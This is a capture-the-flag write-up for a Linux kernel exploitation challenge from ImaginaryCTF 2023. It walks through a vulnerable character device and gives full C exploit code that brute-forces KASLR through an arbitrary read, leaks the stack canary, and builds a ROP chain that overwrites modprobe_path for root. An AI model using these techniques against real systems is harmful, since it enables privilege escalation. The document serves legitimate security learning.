




Imaginary CTF 2023 has just ended and it once again did not disappoint. The CTF featured a variety of fun and interesting challenges. Kudos to the organizers for yet another successful event.

One of the interesting challenges that I solved this year was window-of-opportunity, which is a kernelspace pwn challenge. In this writeup, I will share my thought processes and hopefully bring you some insights or new knowledge into the world of kernelspace!

# Window Of Opportunity

> Sometimes, there is a glimmer of hope, a spark of inspiration, a window of opportunity.
```
.
├── bzImage
├── decompress.sh
├── gdb.sh
├── initramfs.cpio
├── run.sh
└── src
    ├── Makefile
    ├── exploit
    └── exploit.c

1 directory, 8 files
```

## Poking Around

We are provided with some files, notably
- bzImage *(kernel image)*
- initramfs.cpio *(compressed file system)*
- run.sh *(qemu command to boot the kernel)*
- exploit.c *(template exploit code)*

Conveniently, if we look at `src/Makefile`

```makefile
run:
        ../run.sh ../initramfs.cpio exploit

debug:
        tmux split-window -h "sudo gdb ../vmlinux -x ../gdb.sh"
        $(MAKE) run
```

The author provides us a convenient way to compile, run and debug our exploit!

We can simply use the `make` command to boot the kernel or `make debug` to boot the kernel and attach GDB.

```sh
Boot time: 4.26

---------------------------------------------------------------
                     _
                    | |
       __      _____| | ___ ___  _ __ ___   ___
       \ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \
        \ V  V /  __/ | (_| (_) | | | | | |  __/_
         \_/\_/ \___|_|\___\___/|_| |_| |_|\___(_)

  Take the opportunity. Look through the window. Get the flag.
---------------------------------------------------------------
/ $ ls
bin       etc       home      proc      sbin      usr
chall.ko  exploit   init      root      sys       var
dev       flag.txt  linuxrc   run       tmp
/ $ cat flag.txt
cat: can't open 'flag.txt': Permission denied
/ $

```


## Understanding our Environment

Using the `decompress.sh` script, we can unpack `initramfs.cpio` to give us our compressed file system used for the kernel.

The file that we are interested in looking is `etc/init.d/rcS`, which is a shell script that is run on startup.

It might seem a little overwhelming, but I have added some comments to the script to make it easier to understand.

```sh
#!/bin/sh

export PATH=/usr/sbin:/usr/bin:/sbin:/bin

# unimportant: create necessary root directories
[ -d /dev ] || mkdir -m 0755 /dev
[ -d /sys ] || mkdir /sys
[ -d /proc ] || mkdir /proc
[ -d /tmp ] || mkdir /tmp
[ -d /run ] || mkdir /run
[ -d /root ] || mkdir /root
[ -d /etc ] || mkdir /etc
[ -d /home ] || mkdir /home

# create root user
echo 'root:x:0:0:root:/root:/bin/sh' > /etc/passwd
echo 'root:x:0:' > /etc/group
chmod 644 /etc/passwd
chmod 644 /etc/group

# create unprivileged user
adduser user --disabled-password

# give appropriate permissions for files
chown -R root:root /
chmod 700 -R /root
chown user:user /home/user
chmod 777 /home/user
chmod 777 /tmp
chmod 755 /dev
# flag.txt cannot be read/written by anyone
chmod 0 /flag.txt

# unimportant
mkdir -p /var/lock
mount -t sysfs -o nodev,noexec,nosuid sysfs /sys
mount -t proc -o nodev,noexec,nosuid proc /proc
ln -sf /proc/mounts /etc/mtab
mount -t devtmpfs -o nosuid,mode=0755 udev /dev
mkdir -p /dev/pts
mount -t devpts -o noexec,nosuid,gid=5,mode=0620 devpts /dev/pts || true
mount -t tmpfs -o "noexec,nosuid,size=10%,mode=0755" tmpfs /run

# important!! read more below
echo 2 > /proc/sys/kernel/kptr_restrict
echo 2 > /proc/sys/kernel/perf_event_paranoid
echo 1 > /proc/sys/kernel/dmesg_restrict

# unimportant: mount stuff
mkdir /tmp/mount
mount -t 9p -o trans=virtio,version=9p2000.L host0 /tmp/mount

# copy in our exploit executable
cp /dev/sda /exploit
chmod +x /exploit

# load the vulnerable kernel module
insmod chall.ko

# the kernel module registered a chrdev
# we provide proper permissions to chrdev
# so that the user can interact with it
dmesg | grep mknod | awk -F "'" '{print $2}' | sh
chmod 777 /dev/window

echo -e "\nBoot time: $(cut -d' ' -f1 /proc/uptime)\n"

# login with non-privileged user
setsid cttyhack setuidgid 1000 sh --login

# exit gracefully
umount /proc
umount /sys
poweroff -d 0 -f
```

The following lines are some security features that are set by the `rcS` script.

- **kptr_restrict**
    - kernel pointers that are printed will (not) be censored
    - **impact:** prevent leaking of kernel addresses
- **perf_event_paranoid**
    - controls use of the performance events system by unprivileged users
    - **impact:** prevent leaking of kernel addresses?
- **dmesg_restrict**
    - control access to kernel buffer *(dmesg)*
    - **impact:** prevent leaking of kernel addresses

As you can tell, all three security features are in place to prevent unprivileged users from leaking any sort of information from the kernel. 

This forces us to find a way to exploit the possibly vulnerable kernel driver instead of simply reading leaked pointers from the kernel or similar.

Apart from these security features that are enabled on runtime, there are other security features that are enabled when booting the kernel and can be found in `run.sh`.

```sh
    qemu-system-x86_64 -no-reboot \
        -m 256M\
        -kernel $KERNEL_PATH \
        -initrd $1  \
        -cpu kvm64,+smep,+smap \
        -append "console=ttyS0 oops=panic panic=1 kpti=1 kaslr quiet" \
        -drive file=$2,format=raw \
        -monitor /dev/null \
        -serial mon:stdio \
        -virtfs local,path=/tmp,mount_tag=host0,security_model=passthrough,id=foobar \
        -nographic -s
```

Based on the qemu command, the following protections are enabled:
- Supervisor Mode Excess Prevention (SMEP)
    - prevents executing in userspace addresses
- Supervisor Mode Access Prevention (SMAP)
    - prevents read/writing to userspace addresses
- Kernel Address Space Layout Randomization (KASLR)
    - randomizes addresses where kernel is loaded in memory
    - ASLR is a little predictable?
- Kernel Page Table Isolation (KPTI)
    - mainly to mitigate meltdown vulnerability
    - isolate userspace memory with kernel memory
    - little effect on most kernel exploitation techniques

For ease of debugging our exploits, we can disable some of the restrictions and change our startup shell to be a root shell.

```sh
echo 0 > /proc/sys/kernel/kptr_restrict
echo 0 > /proc/sys/kernel/perf_event_paranoid
echo 0 > /proc/sys/kernel/dmesg_restrict

setsid cttyhack setuidgid 0 sh --login # login as uid 0 instead of 1000
```

## Reverse Engineering: chall.ko

### init_module

Given that most modern kernel mitigation techniques are enabled, we will need to look for some powerful primitives that can help us work around these protections and still get to root.

We start from `init_module`, which is a function that is run only once --- when loading the module.

```c
int Major_num;

struct file_operations fops = {
    .unlocked_ioctl     = device_ioctl;    // interact via ioctl(fd, cmd, arg)
    .compat_ioct        = device_ioctl; 
    .write              = device_write;    // interact via write(fd, buf, cou)
    .release            = device_release;
    .open               = device_open;
};


int init_module()
{
  Major_num = _register_chrdev(0LL, 0LL, 256LL, "window", &fops);
  if ( Major_num >= 0 )
      printk("Registered character device with major number %d", Major_num);
      printk("'mknod /dev/%s c %d 0'.\n", "window", Major_num);
      printk("Knock, and the door will be opened unto you.");
      return 0LL;
  printk("Failed to register device, major num returned %d", Major_num);
  return Major_num;
}
```

This function simply registers a _[character device](https://www.oreilly.com/library/view/linux-device-drivers/9781785280009/2c9a91ee-2e24-4d70-808d-58b5ad67ea55.xhtml#:~:text=Character%20devices%20transfer%20data%20to,like%20a%20serial%20port%20does.)_, and maps some interaction with the device to the corresponding function via the `file_operations` struct.

> Think of a character device like a MacDonalds drive-thru.
> 
> Just like how the MacDonalds drive-thru is a way for you to interact with MacDonald employees to get your order, the character device is a way for you to interact with the kernel module to do whatever you want it to do.


### device_write (buffer overflow?!)

One way we can interact with the device is by writing to `/dev/window` which would trigger the `device_write` function.

If we try to decompile the code in IDA, we get some very weird code here.

```c
ssize_t device_write(file *file, const char *buf, size_t count, loff_t *offset)
{
  __int64 v4; // rbp
  char a[64]; // [rsp+0h] [rbp-50h] BYREF
  unsigned __int64 v7; // [rsp+40h] [rbp-10h]
  __int64 v8; // [rsp+48h] [rbp-8h]

  _fentry__(file, buf);
  v8 = v4;
  v7 = __readgsqword(0x28u);
  copy_from_user(a); // <-- copy_from_user should take 3 arguments!!
  return 0LL;
}
```

Hence we will need to change the call type for some functions and fix up the code a little.

After cleaning up the code, we get something nicer like this:

```c
ssize_t device_write(file *file, char *buf, size_t count, loff_t *offset)
{
  char a[64];
  unsigned __int64 canary;
  canary = __readgsqword(0x28u);
    
  // copy count bytes from buffer `buf` in userspace to buffer `a` in kernelspace
  copy_from_user(a, buf, count);
  return 0LL;
}
```

This function is straightforward. If you haven't noticed, there is no bounds check for the amount of bytes that is copied from userspace to the kernel.

This gives us our first vulnerability, a buffer overflow!

However, as you can also see, there is **stack canary protections**. This prevents us from trivially wrecking the stack and corrupting our instruction pointer. We will have to find a way to **leak a stack canary** in order for our buffer overflow to be useful.

### device_ioctl

```c
typedef struct {
    char* ptr;
    char buf[256];
} request;

__int64 device_ioctl(file *filp, unsigned int cmd, unsigned long arg)
{
  request req;
  unsigned long canary;

  canary = __readgsqword(0x28u);
  if ( cmd != 0x1337 )
    return -1LL;
    
  copy_from_user((char *)&req, arg, 264LL);
  return copy_to_user(arg + 8, req.ptr, 256LL);
}
```

`device_ioctl` function is also pretty straightforward.

Primarily, the function copies a `request` struct from userspace into the kernel. 

It then copies back any arbitrary space requested by the struct in userspace and copies it back to userspace.

Essentially, this function gives us a **free arbitrary read**, allowing us to read anywhere we want in the kernel memory.

## Fighting KASLR

So far, we have found two very powerful vulnerabilities inside of the kernel module.

1. Buffer Overflow
2. Arbitrary Read

With the buffer overflow, we can possibly write a kernel ROP chain to elevate us to **root**. However, in order to do so, we need to find a way to bypass KASLR so that we are able to find gadgets to use in our ROP chain.

Our arbitrary read requires us to provide an address, however, if we do not know any kernel address in the first place, how can we use the arbitrary read to defeat KASLR?

**Answer: We can use the arbitrary read to brute force KASLR**

In order to understand how and why it works, we need to first understand the following three concepts:

_copy_to_user is fail-safe_
> copy_to_user does not fail even if the kernel address provided is not mapped yet, it simply copies a bunch of null bytes to the userspace buffer.
> 
> It only throws an error and fails when a kernel address is not physically mappable or does not have the appropriate permissions, which is not of concern to us in this writeup.

[_kaslr is brute-forceable_](https://github.com/torvalds/linux/blob/12ad143e1b803e541e48b8ba40f550250259ecdd/arch/x86/boot/compressed/kaslr.c#L836)
> Unlike in userspace where the ASLR entropy can be as high as 30 bits (1073741824 combinations), the KASLR entropy is only 9 bits (512 combinations) due to space constraints and alignment issues.

[*we know the range of kaslr addresses to brute force*](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/7.4_release_notes/technology_previews_kernel#doc-wrapper)
> The physical address and virtual address of kernel text itself are randomized to a different position separately. The physical address of the kernel can be anywhere under 64TB, while the virtual address of the kernel is restricted between [0xffffffff80000000, 0xffffffffc0000000], the 1GB space.

By combining both of these concepts, we can abuse the arbitrary read via `copy_to_user` in `device_ioctl` to brute force the 9 bits of and find our kernel image base. 

## Getting our hands dirty: Defeating KASLR

With all the information, we can write a simple script to brute force the KASLR to get our kernel base.

```c
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>
#include <stdlib.h>

int fd = 0;

void perror(const char* msg) {
        puts(msg);
        exit(-1);
}

// returns 8 bytes from and arbitrary kernel address
unsigned long aar(unsigned long ptr) {
        unsigned long leak[264/8] = {0};
        leak[0] = ptr;
        ioctl(fd, 0x1337, leak);
        return leak[1];
}

int main() {
        unsigned long kbase = 0;
        fd = open("/dev/window", O_RDWR);
        if (fd == -1)
                perror("error: unable to open /dev/window");

        // we start from the smallest possible kaslr address
        kbase = 0xffffffff80000000;

        while (1) {
                unsigned long ret = aar(kbase);
                printf("[-] trying 0x%lx... got 0x%lx\n", kbase, ret);
                if (ret != 0) {
                        break;
                }
                kbase += 0x100000;
        }

        printf("[*] kbase at 0x%lx\n", kbase);
        close(fd);
}
```



Voila!

## Fighting Stack Cookies

Now that we have our kernel base, we can easily construct a ROP chain to do whatever we want.

However, we are unable to overflow the return address with our ROP chain without wrecking the kernel stack canary. In order to exploit the buffer overflow, we need to first find a way to leak our stack canary.

Based on previous decompiled code --- `canary = __readgsqword(0x28u)` --- we can see that the canary is being loaded from `gs:0x28`.

We can look at it in our debugger



However, by looking at the address of `gs_base`, we can see that it is not within the kernel image base. If we reboot the kernel a few times, we can also see that `gs_base` address is also randomized.

This means that we will have to find a way to either
- leak a canary from within the kernel image
- leak a pointer relative to gs_base from within the kernel image

> Problem: The kernel image is so huge, how do we find a canary/pointer that we want? 
> 
> Insight:  Since the canary and the pointer to gs_base is all determined at runtime, we want to look for places that store data and is also writeable/modifiable at runtime.
> 
> We can look for pointers in the .BSS segment which is a segment within the kernel image that stores global variables that are only initialized at runtime.

By looking at the [man page for nm](https://man7.org/linux/man-pages/man1/nm.1.html), we can see the following 



The `/proc/kallsyms` file stores all the symbols *(functions, variables, etc.)* and the corresponding addresses for the kernel. It also follows the same convention as `nm`. Thus we can easily search for BSS variables by using the following command

```sh
/ # grep " b " /proc/kallsyms | head
ffffffff96d3e000 b dummy_mapping
ffffffff96d3f000 b level3_user_vsyscall
ffffffff96d40000 b idt_table
ffffffff96d41000 b espfix_pud_page
ffffffff96d42000 b bm_pte
ffffffff96d43000 b scratch.0
ffffffff96d44010 b initcall_calltime
ffffffff96d44018 b panic_param
ffffffff96d44020 b panic_later
ffffffff96d44028 b execute_command
```

By scanning the BSS in memory in GDB, we can soon find an address that is at a relative offset from `$gs_base`.

```
pwndbg> x/gx 0xffffffff96d44050
0xffffffff96d44050:     0xffff9e870fcdb8c0
pwndbg> x/gx $gs_base
0xffff9e870f600000:     0x0000000000000000
pwndbg> pi hex(0xffffffff96d44050-0xffffffff94600000)
'0x2744050'
```

As you can see, there is a pointer at a relative offset to `$gs_base` stored in an offset of *0x2744050* from our kernel base address.

Based on this finding, we can easily leak our stack canary.

```c
unsigned long canary = aar(aar(kbase+0x2744050)-0x6db898);
printf("[*] canary at 0x%lx\n", canary);
```



## Getting our hands dirty: KROP to root

With our canary and kernel base in hand, we are 60% to completing our exploit.

In kernelspace exploitation challenges, there are usually a few ways to escalate your privileges, some of the more common ones are:

- overwrite modprobe_path/core_pattern
- commit_creds(prepare_kernel_cred(0))
- overwrite cred structure

For our case, given that we have an buffer overflow with nothing to stop us, we can take the approach of overwriting **modprobe_path** by calling `copy_from_user`.

### what modprobe what path?

For the knowledge-hungry and curious minds, you can find more details about it [here](https://github.com/smallkirby/kernelpwn/blob/master/technique/modprobe_path.md) and [here](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/)

A short summary of how the technique works --- when we execute a file of an unknown format, it will do a series of calls:

```
1. do_execve()
2. do_execveat_common()
3. bprm_execve()
4. exec_binprm()
5. search_binary_handler()
6. request_module()
7. call_modprobe()
```

Ultimately, if the kernel is unable to identify the format of the binary, it will attempt to call `call_usermodehelper_exec` which will execute the `modprobe_path` string with root privileges.

```c
char modprobe_path[KMOD_PATH_LEN] = CONFIG_MODPROBE_PATH;

static int call_modprobe(char *orig_module_name, int wait)
{
	struct subprocess_info *info;
	static char *envp[] = {
		"HOME=/",
		"TERM=linux",
		"PATH=/sbin:/usr/sbin:/bin:/usr/bin",
		NULL
	};
	char *module_name;
	int ret;

	char **argv = kmalloc(sizeof(char *[5]), GFP_KERNEL);
	if (!argv)
		goto out;

	module_name = kstrdup(orig_module_name, GFP_KERNEL);
	if (!module_name)
		goto free_argv;

	argv[0] = modprobe_path;
	argv[1] = "-q";
	argv[2] = "--";
	argv[3] = module_name;	/* check free_modprobe_argv() */
	argv[4] = NULL;

	info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
					 NULL, free_modprobe_argv, NULL);
	if (!info)
		goto free_module_name;

	ret = call_usermodehelper_exec(info, wait | UMH_KILLABLE);
	kmod_dup_request_announce(orig_module_name, ret);
	return ret;

free_module_name:
	kfree(module_name);
free_argv:
	kfree(argv);
out:
	kmod_dup_request_announce(orig_module_name, -ENOMEM);
	return -ENOMEM;
}
```

By corrupting `modprobe_path` to point to any arbitrary script that we provide, we can execute any commands we want in root privileges.

Ultimately, what we can do is:

1. create a file `/tmp/xpl.sh` with contents `#!/bin/sh\nchmod 777 /flag.txt`
2. create a file `/tmp/broken` with contents `\xff\xff\xff\xff`
3. set modprobe_path to `/tmp/xpl.sh`
4. execute `/tmp/broken` which would trigger modprobe and set our flag file to be executable

### Crafting kROP chain

Most of the kROP chain is business as usual just like a userspace ROP chain.

We first extract the `vmlinux` binary from the `bzImage` using [this script](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux).

We can then obtain the gadgets using `ROPgadget --binary vmlinux > gadgets.txt` command.

```c
// gadgets
#define pop_rdi (kbase+0x1d675)
#define pop_rsi (kbase+0x6ff0c)
#define pop_rdx (kbase+0x7baf4a)

#define swapgs_iret (kbase+0x1001126)

// symbols
#define copy_from_user (kbase+0x6e5d00)
#define modprobe_path (kbase+0x208c500)


char new_path[] = "/tmp/xpl.sh\x00";
char payload[0x1000];
memset(payload, 0x41, 0x1000);
unsigned long* krop = (unsigned long*)&payload[0x40];
*krop++ = canary;
*krop++ = 0;

// copy_from_user(modprobe_path, new_path:="/tmp/xpl.sh\x00", strlen(new_path)+1)
*krop++ = pop_rdi;
*krop++ = modprobe_path;
*krop++ = pop_rsi;
*krop++ = (unsigned long)new_path;
*krop++ = pop_rdx;
*krop++ = strlen(new_path) + 1;
*krop++ = copy_from_user;
```

The only difference is that in kernelspace, after we finish our chain, we must return to userspace gracefully. The kernel is very fragile and will crash easily if you do not return gracefully.

> In order to return to user-mode, swapgs must be called before iretq. The purpose of this instruction is to also swap the GS register between kernel-mode and user-mode.
> 
> Additionally, due to KPTI, we must swap back from the kernel page table to the user-space page table, otherwise we will meet a segmentation fault.

Instead of reimplementing the wheel, we can simply use the `swapgs_restore_regs_and_return_to_usermode()` function to return to userspace gracefully.

Do note that we will also have to save and restore our userspace registers to return to user-mode gracefully.

The final payload is

```python
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>
#include <stdlib.h>

#define pop_rdi (kbase+0x1d675)
#define pop_rsi (kbase+0x6ff0c)
#define pop_rdx (kbase+0x7baf4a)
#define swapgs_iret (kbase+0x1001126)

#define copy_from_user (kbase+0x6e5d00)
#define modprobe_path (kbase+0x208c500)

int fd = 0;
unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

void win() {
        // prepare malicious modprobe path
        system("echo -e '#!/bin/sh\nchmod 777 /flag.txt' > /tmp/xpl.sh");
        system("chmod +x /tmp/xpl.sh");
        system("echo -e '\xff\xff\xff\xff' > /tmp/pwn");
        system("chmod +x /tmp/pwn");

        // call /tmp/xpl.sh with root permissions via modprobe_path
        system("/tmp/pwn");
        system("cat /flag.txt");
}

unsigned long user_rip = (unsigned long)win;

void perror(const char* msg) {
        puts(msg);
        exit(-1);
}

unsigned long aar(unsigned long ptr) {
        unsigned long leak[264/8] = {0};
        leak[0] = ptr;
        ioctl(fd, 0x1337, leak);
        return leak[1];
}

int main() {

        unsigned long kbase = 0;
        char new_path[] = "/tmp/xpl.sh\x00";

        save_state();
        fd = open("/dev/window", O_RDWR);
        if (fd == -1)
                perror("error: unable to open /dev/window");

        kbase = 0xffffffff80000000;

        while (1) {
                unsigned long ret = aar(kbase);
                printf("[-] trying 0x%lx... got 0x%lx\n", kbase, ret);
                if (ret != 0) {
                        break;
                }
                printf("\r");
                kbase += 0x100000;
        }

        unsigned long canary = aar(aar(kbase+0x2744050)-0x6db898);

        printf("[*] kbase at 0x%lx\n", kbase);
        printf("[*] canary at 0x%lx\n", canary);

        char payload[0x1000];
        unsigned long* krop = (unsigned long*)&payload[0x40];
    
        // fixup canary
        *krop++ = canary;
        *krop++ = 0;

        // copy_from_user(modprobe_path, xpl_sh, strlen(xpl_sh)+1)
        *krop++ = pop_rdi;
        *krop++ = modprobe_path;
        *krop++ = pop_rsi;
        *krop++ = (unsigned long)new_path;
        *krop++ = pop_rdx;
        *krop++ = strlen(new_path) + 1;
        *krop++ = copy_from_user;

        // return gracious to user-mode -> win function 
        *krop++ = swapgs_iret;
        *krop++ = 0;
        *krop++ = 0;
        *krop++ = user_rip;
        *krop++ = user_cs;
        *krop++ = user_rflags;
        *krop++ = user_sp;
        *krop++ = user_ss;

        write(fd, payload, (char*)krop - payload);

        close(fd);
}
```


## Extra lore --- kASLR bypass via cpu_entry_area

After the CTF, I was looking through the writeups from other participants and I chanced upon an interesting exploit by a [nasm](https://nasm.re/) *(huge kudos to him for his awesome poc)*. That prompted me to do some research.

*reference: [mm.txt](https://elixir.bootlin.com/linux/v5.0/source/Documentation/x86/x86_64/mm.txt)*
```
_________________________________________________________________________________________________________________________
                  |            |                  |         |
 fffffc0000000000 |   -4    TB | fffffdffffffffff |    2 TB | ... unused hole
                  |            |                  |         | vaddr_end for KASLR
 fffffe0000000000 |   -2    TB | fffffe7fffffffff |  0.5 TB | cpu_entry_area mapping
 fffffe8000000000 |   -1.5  TB | fffffeffffffffff |  0.5 TB | ... unused hole
 ffffff0000000000 |   -1    TB | ffffff7fffffffff |  0.5 TB | %esp fixup stacks
 ffffff8000000000 | -512    GB | ffffffeeffffffff |  444 GB | ... unused hole
 ffffffef00000000 |  -68    GB | fffffffeffffffff |   64 GB | EFI region mapping space
 ffffffff00000000 |   -4    GB | ffffffff7fffffff |    2 GB | ... unused hole
 ffffffff80000000 |   -2    GB | ffffffff9fffffff |  512 MB | kernel text mapping, mapped to physical address 0
 ffffffff80000000 |-2048    MB |                  |         |
 ffffffffa0000000 |-1536    MB | fffffffffeffffff | 1520 MB | module mapping space
 ffffffffff000000 |  -16    MB |                  |         |
    FIXADDR_START | ~-11    MB | ffffffffff5fffff | ~0.5 MB | kernel-internal fixmap range, variable size and offset
 ffffffffff600000 |  -10    MB | ffffffffff600fff |    4 kB | legacy vsyscall ABI
 ffffffffffe00000 |   -2    MB | ffffffffffffffff |    2 MB | ... unused hole
__________________|____________|__________________|_________|___________________________________________________________
```

_extract from [linux kernel lore](https://lore.kernel.org/lkml/166639114548.401.707105259028399157.tip-bot2@tip-bot2/T/)_
> Seth found that the CPU-entry-area; the piece of per-cpu data that is
mapped into the userspace page-tables for kPTI is not subject to any
randomization -- irrespective of kASLR settings.

Surprisingly, for the longest of time, `cpu_entry_area` mapping in the kernel memory space has not been subjected to kASLR. 

_extract from [lkml](https://lore.kernel.org/lkml/20221213174234.688534-1-dave.hansen@linux.intel.com/)_
> Without it, these areas are a tasty target for attackers. The entry code and mappings are especially tricky code and this has caused some issues along the way, but they have settled down.

This is a very powerful attack vector, since leaking the kernel base and bypassing kASLR would now be trivial with any single arbitrary read primitive.

Understandably so, earlier this year, there has been a few updates to the linux kernel to randomize `cpu_entry_area` and destroy this easy *kASLR bypass*.

However this led me to still be curious --- how long has `cpu_entry_area` been unaffected by kASLR, considering that it was only patched recently?

The earliest [article](https://lkml.org/lkml/2017/12/4/881) I found that mentioned about this dated back to 2017. I found it really interesting how this took 6 years to realize and patch. That was some really cool linux kernel lore!

## Conclusion

I hope that this writeup was insightful and easy to follow, if there are any queries, feel free to reach out to me on discord via **@caprinux**. If you are interested in learning more about kernel pwn, you can follow some of the awesome blogs here
* https://github.com/smallkirby/kernelpwn
* https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/
* https://pawnyable.cafe/linux-kernel/

Also, lots of respect for [nasm](https://nasm.re/) for inspiring the last section of this writeup. You can find his full writeup for the challenge [here](https://ctftime.org/writeup/37670).
